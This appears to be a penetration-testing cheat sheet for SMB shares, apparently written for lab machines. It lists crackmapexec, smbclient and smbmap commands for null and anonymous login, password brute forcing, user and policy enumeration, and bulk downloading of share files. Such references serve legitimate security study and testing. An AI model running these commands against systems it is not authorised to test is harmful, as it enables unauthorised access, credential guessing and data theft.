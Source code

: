 ## Gaining Access
### Test for Null authentication
```bash
# Using crackmapexec
crackmapexec smb 10.10.10.219 -u '' -p '' --shares

# Using SmbClient
smbclient -N //10.10.10.219/kanban

# Using SmbMap
smbmap -u '' -p '' -H 10.10.10.172
```

### Test for anonymous login
```bash
# Using Smbmap
smbmap -u anonymous -p anonymous -H 10.10.10.172
```

### Password Brute Forcing
```bash
crackmapexec smb 10.10.10.172 -u /root/users.lst -p /root/passwords.lst
```

***
## Enumeration
```bash
# Enum users
crackmapexec smb 10.10.10.219 -u '' -p '' --users

# Enum Password Policy
crackmapexec smb 10.10.10.219 -u '' -p '' --pass-pol

# Enum files on share and their creation/modification dates
crackmapexec smb 10.10.10.219 -u '' -p '' -M spider_plus
```

***

## Exploitation
### Download all files from share
```bash
# Using smbclient
smbclient -N //10.10.10.219/kanban
recurse ON
prompt OFF
mget *
```